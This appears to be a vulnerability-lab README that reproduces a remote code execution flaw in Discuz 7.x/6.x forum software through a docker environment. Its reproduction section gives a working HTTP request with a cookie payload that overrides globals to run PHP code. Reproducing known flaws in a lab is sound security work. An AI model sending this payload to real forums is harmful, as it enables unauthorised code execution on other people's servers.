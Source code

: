 # Discuz 7.x/6.x Remote Code Execution via Global Variable Override

[中文版本(Chinese version)](README.zh-cn.md)

Discuz is a popular forum software widely used in China. A remote code execution vulnerability exists in Discuz 7.x/6.x versions due to insufficient global variable protection.

In PHP 5.3.x, the default value of `request_order` in php.ini is set to "GP", which means `$_REQUEST` no longer includes `$_COOKIE` by default. This allows attackers to override global variables through cookies by injecting `$GLOBALS`, leading to remote code execution.

References:

- <https://www.secpulse.com/archives/2338.html>

## Environment Setup

Execute the following command to start Discuz 7.2:

```
docker compose up -d
```

After starting the container, visit `http://your-ip:8080/install/` to install Discuz. Use the following database settings:

- Database Host: `db`
- Database Name: `discuz`
- Username: `root`
- Password: `root`

![](1.png)

## Vulnerability Reproduction

After installation, find an existing post and send a request with the following cookie that contains the payload `GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`:

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close


```

The `phpinfo()` function will be successfully executed, demonstrating the remote code execution vulnerability:

![](2.png)

> Note: Some articles online claim that a post with an emoji comment is required, but the actual test found that it was not necessary, and the reason still needs to be analyzed from the code.
